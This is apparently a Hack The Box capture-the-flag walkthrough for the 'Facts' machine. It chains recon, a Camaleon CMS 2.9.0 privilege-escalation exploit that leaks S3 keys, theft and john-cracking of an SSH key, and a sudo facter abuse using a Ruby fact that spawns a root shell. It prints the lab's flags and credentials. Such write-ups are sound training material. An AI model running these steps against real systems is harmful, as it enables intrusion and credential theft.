# Facts — HTB CTF Walkthrough

**Difficulty:** Easy  
**OS:** Linux (Ubuntu 25.04)  
**User Flag:** `39a3ddb7d54163a2e710459ba713d4c8`  
**Root Flag:** `d44dc1c49da90f0bc637fb0303c1abdc`

---

## 1. Reconnaissance

### 1.1 Nmap Scan

```bash
nmap -sC -sV -oN nmap-initial.txt facts.htb
```

**Open Ports:**

| Port | Service | Detail |
|------|---------|--------|
| 22/tcp | SSH | OpenSSH |
| 80/tcp | HTTP | nginx 1.26.3 (Ubuntu) |
| 54321/tcp | HTTP | S3-like service |

The web service redirects to `http://facts.htb/`, indicating virtual host routing.

### 1.2 Add Virtual Host Entry

```bash
echo "10.129.12.104 facts.htb" | sudo tee -a /etc/hosts
```


### 1.3 Web Enumeration

Using `gobuster` to brute-force directories on the web server.

```bash
gobuster dir -u http://facts.htb -w /usr/share/wordlists/dirb/common.txt
```


Using `curl` to inspect the HTTP headers reveals the application is running **Camaleon CMS**.

```bash
curl -I http://facts.htb
```


Navigating to `http://facts.htb/admin` reveals the Camaleon CMS admin panel.

---

## 2. Initial Foothold — Camaleon CMS Exploit

### 2.1 Vulnerability Overview

Camaleon CMS 2.9.0 is vulnerable to an authentication bypass and privilege escalation. A public Python exploit allows us to register a normal user, escalate our privileges to admin, and extract sensitive credentials (AWS S3 keys).

### 2.2 Exploit

Register a standard user on the `/admin/register` page.


Run the public privilege escalation script. *(Note: The first attempt failed with user `ohaddou`, so we used user `test` instead).*

```bash
python Desktop/Facts/camaleon_cms_privilege_escalation.py -u http://facts.htb -U test -P test --newpass ohaddou -r -e
```




**Result:** 
The exploit successfully logs in, escalates to admin, and extracts **AWS S3 credentials**:
*   **Access Key:** `AKIA4F157D6E4C472E2F`
*   **Secret Key:** `Z67MkTsNZ7zkmcz1g0EBxq87CTlxG5yJu2hp6X3`
*   **Endpoint:** `http://localhost:54321` (or `facts.htb:54321`)



---

## 3. AWS S3 Enumeration

### 3.1 AWS Configuration

Install the AWS CLI tool and configure it using the extracted credentials.

```bash
sudo apt install awscli
aws configure
```



### 3.2 S3 Bucket Enumeration

List the S3 buckets using the custom endpoint.

```bash
aws --endpoint-url http://facts.htb:54321 s3 ls
```


Two buckets are found: `internal` and `randomfacts`. Listing the `internal` bucket reveals a hidden `.ssh` directory. Download the SSH keys:

```bash
aws --endpoint-url http://facts.htb:54321 s3 ls s3://internal/.ssh/
aws --endpoint-url http://facts.htb:54321 s3 cp s3://internal/.ssh/id_ed25519 ./id_ed25519
aws --endpoint-url http://facts.htb:54321 s3 cp s3://internal/.ssh/authorized_keys ./authorized_keys
```


---

## 4. Lateral Movement — SSH Key Cracking

### 4.1 Fix SSH Permissions

By default, downloaded files often have overly permissive access. SSH strictly rejects private keys that are readable by other users. To fix this, we restrict the permissions to `600` (read/write only for the owner).

```bash
chmod 600 id_ed25519
```

*(If you try to SSH with the default permissions, you will receive an "UNPROTECTED PRIVATE KEY FILE" warning and SSH will reject the key):*


### 4.2 Crack the Passphrase

The key is passphrase-protected. Convert it to a hash using `ssh2john` and crack it with `john`.

```bash
ssh2john id_ed25519 > hash
cat hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```



**Recovered Passphrase:** `dragonballz`

### 4.3 SSH Login & User Flag

SSH into the machine as `trivia` using the cracked passphrase.

```bash
ssh -i id_ed25519 trivia@facts.htb
```

Once logged in, retrieve the user flag:

```bash
cat ~/user.txt
```


---

## 5. Privilege Escalation — Facter

### 5.1 Local Enumeration

Check `sudo` privileges for the `trivia` user.

```bash
sudo -l
```

**Output:**
```text
Matching Defaults entries for trivia on facts:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User trivia may run the following commands on facts:
    (ALL) NOPASSWD: /usr/bin/facter
```

### 5.2 Exploiting Facter

`facter` is a Ruby-based tool. Since we can run it as root, we can create a custom Ruby fact that executes a shell with root privileges.

Create a custom fact in a writable directory (`/tmp/pwn`):

```bash
mkdir -p /tmp/pwn
cat << 'EOF' > /tmp/pwn/root.rb
Facter.add(:pwn) do
  setcode do
    exec("/bin/bash -p")
  end
end
EOF
```


Execute `facter` as root, pointing to our custom directory:

```bash
sudo /usr/bin/facter --custom-dir=/tmp/pwn pwn
```

### 5.3 Capture the Root Flag

After escalating to root via `facter`, read the root flag:

```bash
cat /root/root.txt
```


---

## 6. Attack Chain Summary

```text
Nmap → facts.htb (HTTP) + Port 54321 (AWS S3-like)
         ↓
Web Enumeration → /admin (Camaleon CMS 2.9.0)
         ↓
Camaleon CMS Priv Esc Exploit → Extract AWS S3 Credentials
         ↓
AWS CLI configured → List S3 Buckets (`internal`)
         ↓
Download SSH Keys (`id_ed25519`) from S3
         ↓
Crack SSH Key Passphrase with John (`dragonballz`)
         ↓
SSH as trivia → sudo -l reveals `facter` NOPASSWD
         ↓
Create malicious Ruby fact (root.rb) → Execute `/bin/bash -p` as root
         ↓
Root shell → both flags captured
```

---

## 7. Key Takeaways

**Exposed Cloud Credentials:** CMS vulnerabilities often expose more than just web access. Here, extracting AWS credentials allowed access to internal S3 buckets containing sensitive SSH keys.

**SSH Key Security:** Always protect private keys with a strong, non-dictionary passphrase. Tools like `John the Ripper` can easily crack weak passphrases from leaked keys. Ensure keys are stored with `600` permissions.

**Sudo Abuse (Facter):** Tools that load configurations or extensions (like Ruby's `facter`) can be abused for privilege escalation if allowed to run via `sudo`. Always validate what data a privileged tool can execute.

**CMS Upgrades:** Keep Content Management Systems and their plugins updated. Legacy versions like Camaleon CMS 2.9.0 often have publicly available exploits that lead to full system compromise.
